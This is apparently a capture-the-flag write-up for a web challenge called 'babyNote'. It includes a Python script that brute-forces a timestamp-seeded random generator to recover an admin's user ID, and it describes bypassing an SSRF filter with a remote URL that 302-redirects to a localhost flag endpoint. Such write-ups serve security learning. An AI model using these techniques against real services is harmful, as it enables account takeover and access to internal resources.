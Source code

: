## babyNote

given the source code:

```=python
    timestamp = round(time.time(), 4)
    random.seed(timestamp)
    user_id = get_random_id()
    timestamp = round(time.time(), 4)
    post_at = datetime.datetime.fromtimestamp(timestamp,
    tz=datetime.timezone.utc).strftime('%Y-%m-%d %H:%M UTC')
    random.seed(user_id + post_at)
    note_id = get_random_id()
```

we know that it is possible to crack the user_id of admin.

```=python
import string
import random
def get_random_id():
    alphabet = list(string.ascii_lowercase + string.digits)
    return ''.join([random.choice(alphabet) for _ in range(32)])

target = "lj40n2p9qj9xkzy3zfzz7pucm6dmjg1u"
target2= "2021-01-15 02:29 UTC"
init = 1610677740.0
while 1:
    init += 0.0001
    timestamp = round(init,4)
    random.seed(timestamp)
    user_id = get_random_id()
    random.seed(user_id + target2)
    note_id = get_random_id()
    if note_id == target:
        print(user_id)
#7bdeij4oiafjdypqyrl2znwk7w9lulgn
        break
```

Then can visit secret notes via: http://ip:port/my_notes?id=7bdeij4oiafjdypqyrl2znwk7w9lulgn

It gives one secret url to include remote note. And we also know that only the localhost can visit the flag.
Thus it is a SSRF challenge.

The filter blocks inner ip, we include a remote url and make it 302 jump to http://127.0.0.1/flag. Solved.